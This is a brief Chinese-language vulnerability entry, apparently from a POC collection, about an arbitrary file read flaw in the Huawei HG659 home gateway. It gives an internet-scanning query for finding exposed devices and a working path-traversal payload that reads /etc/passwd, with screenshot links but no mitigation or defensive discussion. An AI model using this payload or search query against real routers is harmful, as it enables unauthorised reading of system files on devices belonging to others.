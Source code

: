 # Huawei HG659 lib 任意文件读取漏洞

## 漏洞描述

Huawei HG659 lib 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

<a-checkbox checked>Huawei HG659</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="HUAWEI-Home-Gateway-HG659"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](../../../.vuepress/public/img/image-20210615141459903.png)



POC如下



```plain
/lib///....//....//....//....//....//....//....//....//etc//passwd
```



![img](../../../.vuepress/public/img/image-20210615141751249.png)

